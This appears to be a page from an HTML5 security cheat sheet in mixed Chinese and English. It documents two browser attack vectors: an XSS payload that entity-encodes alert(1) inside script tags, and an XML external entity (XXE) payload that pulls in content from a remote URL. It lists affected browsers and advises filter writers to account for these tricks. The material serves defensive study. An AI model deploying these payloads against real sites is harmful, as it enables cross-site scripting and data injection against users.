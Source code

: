 reporter：.mario

### <SCRIPT>和其它类似标签内的 Entities#18test

By specification user agents allow using HTML entities between <SCRIPT> and <STYLE> tags in case the document is being delivered and rendered as X(HT)ML.

```
<script >&#x61;l&#x65;rt&#40;1)</script> 
```

确保过滤器或其它检测系统考虑了<script>或<style>和其它标签之间允许有 Entities 的事实.而不仅仅是属性.

*   opera 8.x
*   opera latest

*   firefox 1.x

*   firefox latest

*   chrome 3.0

*   chrome latest

*   safari 5.0

*   safari latest

*   internet explorer 9.0

*   internet explorer latest

*   xss

*   javascript
*   opera
*   internet explorer
*   firefox
*   chrome
*   safari
*   xml
*   entity

reporter：.mario

### Arbitrary payload injection via XML External Entities (XXE)#64test

Chrome and Safari allow using external XML entities to reference payload for an entity. The example shows that the entity &x; is now being filled with the content of the given file. The document must be delivered as XML or XHTML. Note that the absolute URL for the source of XXE is required.

```
<!DOCTYPE x[<!ENTITY x SYSTEM "http://html5sec.org/test.xxe">]><y>&x;</y> 
```

